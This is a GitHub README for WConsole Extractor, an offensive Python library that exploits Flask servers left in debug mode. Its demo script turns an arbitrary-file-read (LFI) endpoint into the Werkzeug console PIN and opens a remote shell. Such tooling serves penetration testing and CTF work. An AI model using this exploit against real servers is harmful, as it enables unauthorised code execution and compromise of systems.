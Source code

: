 <h1 align="center">Welcome to WConsole Extractor 👋</h1>
<p>
  <img alt="Version" src="https://img.shields.io/badge/version-1.0.0-blue.svg?cacheSeconds=2592000" />
  <a href="https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE" target="_blank">
    <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-yellow.svg" />
  </a>
  <a href="https://twitter.com/Ruulian_" target="_blank">
    <img alt="Twitter: Ruulian_" src="https://img.shields.io/twitter/follow/Ruulian_.svg?style=social" />
  </a>
</p>

> Wconsole Extractor is a library which allows to automatically exploit a flask debug mode server. You just need to write a file leak function, pass it to the class ``WConsoleExtractor`` constructor and you can access to all the elements related to the debug mode.

### 🏠 [Homepage](https://github.com/Ruulian/wconsole_extractor)

## Install

```sh
git clone https://github.com/Ruulian/wconsole_extractor.git
cd wconsole_extractor
pip3 install .
```

### Python virtual environment

```sh
git clone https://github.com/Ruulian/wconsole_extractor.git
cd wconsole_extractor
python3 -m venv env
source env/bin/activate
pip3 install .
```

## Usage

**Note**: The target operating system must be a Linux distribution.

### Leak function

In order to use correctly the library, you need to have an arbitrary file read on the target and implement it in python.

You must write a function that takes a filename as parameter and returns the content of the file on the target. If the file is not found, the function should return an **empty string**.

### ✨ Demo

```py
from wconsole_extractor import WConsoleExtractor, info
import requests

def leak_function(filename) -> str:
    r = requests.get(f"http://localhost:5000/lfi?path={filename}")
    if r.status_code == 200:
        return r.text
    else:
        return ""

extractor = WConsoleExtractor(
    target="http://localhost:5000",
    leak_function=leak_function
)


info(f"PIN CODE: {extractor.pin_code}")
extractor.shell()
```

![example_gif](.github/example.gif)

## Author

👤 **Ruulian**

* Website: https://ruulian.me
* Twitter: [@Ruulian_](https://twitter.com/Ruulian_)

## 🤝 Contributing

Contributions, issues and feature requests are welcome!<br />Feel free to check [issues page](https://github.com/Ruulian/wconsole_extractor/issues). 

## Show your support

Give a ⭐️ if this project helped you!

## 📝 License

This project is [MIT](https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE) licensed.

***
_This README was generated with ❤️ by [readme-md-generator](https://github.com/kefranabg/readme-md-generator)_